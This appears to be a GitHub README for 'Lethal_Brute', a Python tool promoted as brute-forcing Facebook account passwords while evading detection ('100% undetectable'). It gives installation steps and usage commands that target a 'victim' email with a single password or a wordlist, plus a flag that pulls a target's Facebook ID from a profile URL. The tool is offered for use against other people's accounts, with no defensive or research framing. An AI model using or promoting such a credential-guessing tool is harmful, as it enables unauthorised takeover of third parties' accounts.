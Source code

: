 # Lethal_Brute
Lets you bruteforce facebook without any suspicious login by facebook
<p align="left">
  <a><img title="pyto"src="https://img.shields.io/badge/91.87%25-Python-yellowgreen"></a>
</p>
<p align="left">
  <a><img title="pyto"src="https://img.shields.io/badge/11.0%25-shell-yellowgreen"></a>
</p>
<p align="left">
  <a><img title="pyto"src="https://img.shields.io/badge/100%25-working-yellowgreen"></a>
</p>
<p align="left">
  <a><img title="pyto"src="https://img.shields.io/badge/100%25-undetectable-yellowgreen"></a>
</p>
<p align="left">
  <a><img title="pyto"src="https://img.shields.io/badge/code-below1mb-bluegreen"></a>
</p>
<p align="left">
  <a><img title="pyto"src="https://img.shields.io/badge/made by-g1ng3rb1t3-bluegreen"></a>
</p>

# Installation
```
$ git clone https://github.com/g1ng3rb1t3/Lethal_Brute
$ cd Lethal_Brute
$ chmod +x install.sh
$ ./install.sh
$ python3 lebrute.py [option]
```
# Usage example (using one password)
```
python3 lebrute.py -v anon@gmail.com -p 00000001
```
# Usage example (using wordlist)
```
python3 lebrute.py -v anon@gmail.com -w [wordlist path]
```
# Usage example (getting facebook ID from url)
```
$ python3 lebrute.py -f [victim/target url]
-------example-------
$ python3 lebrute.py -f https://www.facebook.com/g1ng3rb1t3
```
# Checking for update
```
python lebrute.py -check
```
# Checking Script info
```
python lebrute.py -about
```
# Note
```
Not tested on many devices. But works on my device
```
# Check
```
[>] Internet connection
[>] Be good
```
# Keywords
```
-v is victim
-p is single password
-w is wordlist
-f is fetch. For getting facebook ID
-c is check or update. Basically checks for script version and updates it if not new version
```
